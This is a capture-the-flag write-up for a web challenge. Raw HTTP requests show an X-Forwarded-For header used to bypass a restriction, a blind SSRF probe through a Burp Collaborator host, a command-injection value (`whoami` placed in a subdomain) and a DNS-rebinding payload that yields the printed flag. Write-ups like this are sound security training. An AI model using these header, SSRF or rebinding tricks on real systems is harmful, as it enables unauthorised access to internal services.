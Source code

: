 # Challenge Name: Sneaky


![date](https://img.shields.io/badge/date-26.02.2023-brightgreen.svg)  
![solved in time of CTF](https://img.shields.io/badge/solved-in%20time%20of%20CTF-brightgreen.svg)   
![category](https://img.shields.io/badge/category-WEB-blueviolet.svg)   
![value](https://img.shields.io/badge/value-200-blue.svg)  


## Description

Think you have what it takes to crack our code? We've built this web application to be a real head-scratcher, but if you can unravel the mystery and find the hidden flag, you'll prove that you're a true master of the game. Best of luck!

[https://ideh-sneaky.chals.io](https://ideh-sneaky.chals.io/)

## Detailed solution

After visting the webpage we can see a message Not allowed

The first thing came to my mind is using headers to bypass the restriction https://gist.github.com/kaimi-/6b3c99538dce9e3d29ad647b325007c1

After checking X-Forwarded-For i found a new response

```http
GET / HTTP/1.1
Host: ideh-sneaky.chals.io
Connection: close
X-Forwarded-For: 127.0.0.1
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/85.0.4183.83 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
```
```http
HTTP/1.1 200 OK
Server: Werkzeug/2.2.3 Python/3.9.16
Date: Mon, 27 Feb 2023 16:48:56 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 45
Connection: close

The DNS query name does not exist: 127.0.0.1.
```
It possible that the web application is trying to do a dns lookup. I switched to burp collaborator to test it

```http
GET / HTTP/1.1
Host: ideh-sneaky.chals.io
Connection: close
X-Forwarded-For: sa60d3wjma6d6m6yg9x2svjea5gv4k.burpcollaborator.net
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/85.0.4183.83 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
```
We got not allowed 

```http
HTTP/1.1 200 OK
Server: Werkzeug/2.2.3 Python/3.9.16
Date: Mon, 27 Feb 2023 16:53:43 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 12
Connection: close

Not allowed.
```
If we check burp collaborator, we can see that we got a dns lookup for the web app

![image](https://user-images.githubusercontent.com/72421091/221628867-6eca300f-833c-48fb-955d-abc7ff13902c.png)

We have a blind SSRF

```
Server Side Request Forgery or SSRF is a vulnerability in which an attacker forces a server to perform requests on their behalf.
```
```
Blind SSRF vulnerabilities occur when an application is making a request to a back-end server due to some reasons but the response 
is not shown on the front-end.
```
You can find more details on how to exploit SSRF https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Request%20Forgery

I did a quick test using an command injection in domain name to see how the app will react 

```
X-Forwarded-For: `whoami`.sa60d3wjma6d6m6yg9x2svjea5gv4k.burpcollaborator.net
```

We receive a new error now related to timout but dns lookup received dosen't include anyting with the subdomain 

```http
HTTP/1.1 200 OK
Server: Werkzeug/2.2.3 Python/3.9.16
Date: Mon, 27 Feb 2023 17:01:15 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 258
Connection: close

The resolution lifetime expired after 5.403 seconds: Server 127.0.0.11 UDP port 53 answered The DNS operation timed out.; Server 127.0.0.11 UDP port 53 answered The DNS operation timed out.; Server 127.0.0.11 UDP port 53 answered The DNS operation timed out.
```

I detect a differnce between sending localhost ip and a domain. When sending a domain, we got not allowed after dns lookup which means that the web app is accepting only internal adresses.

We can abuse this using an attack called DNS rebinding. We can trick the webapp by changing the ip to 127.0.01 and after the check change it to another address

We can use tool for that https://lock.cmpxchg8b.com/rebinder.html 

I put an internal ip with localhost just for checking

7f000001.c0a80001.rbndr.us

As we can see the address is changed 

![image](https://user-images.githubusercontent.com/72421091/221631899-ac3cbbad-a096-43d1-9e94-71b86294fa0a.png)

Now let's try with our app

```http
GET / HTTP/1.1
Host: ideh-sneaky.chals.io
Connection: close
X-Forwarded-For: 7f000001.c0a80001.rbndr.us
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/85.0.4183.83 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
```

```http
HTTP/1.1 200 OK
Server: Werkzeug/2.2.3 Python/3.9.16
Date: Mon, 27 Feb 2023 17:14:16 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 24
Connection: close

IDEH{Tr1ky_DNS127_0_0_1}
```

We got our flag

## Flag

```
IDEH{Tr1ky_DNS127_0_0_1}
```
